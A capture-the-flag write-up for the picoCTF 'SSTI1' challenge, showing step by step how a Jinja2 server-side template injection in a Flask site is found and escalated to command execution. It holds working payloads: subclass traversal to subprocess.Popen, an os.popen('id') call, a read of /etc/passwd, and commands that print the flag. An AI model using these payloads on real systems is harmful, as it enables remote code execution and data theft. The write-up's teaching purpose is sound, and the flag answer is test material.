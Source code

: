 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)


Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: __{{global_name.__class__.__mro__}}__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: __{{global_name.__class__.__base__}}__

- Returns: <class 'object'>

Sending: __{{g.__class__.__mro__}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __{{g.__class__.mro()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['mro']()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['__mro__']}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __{{get_flashed_messages}}__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __{{get_flashed_messages.__class__}}__

- Returns: <class 'function'>

Sending: __{{get_flashed_messages.__class__.__mro__}}__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __{{get_flashed_messages.__class__.__mro__[1]}}__
- Returns: <class 'object'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __{{g}}__

- Returns: <flask.g of 'app'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}__

- Returns: <class 'mappingproxy'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}__

- Returns: /etc/passwd

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}__

- Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __{{app.__class__}}__

- Returns: <class 'jinja2.runtime.Undefined'>

Sending: __{{app.__class__.__mro__}}__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: __{{app.__class__.__mro__[1].__subclasses__()}}__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __{{app.__class__.__mro__[1].__subclasses__()[356]}}__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:


Sending: __{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}__

- Returns __picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


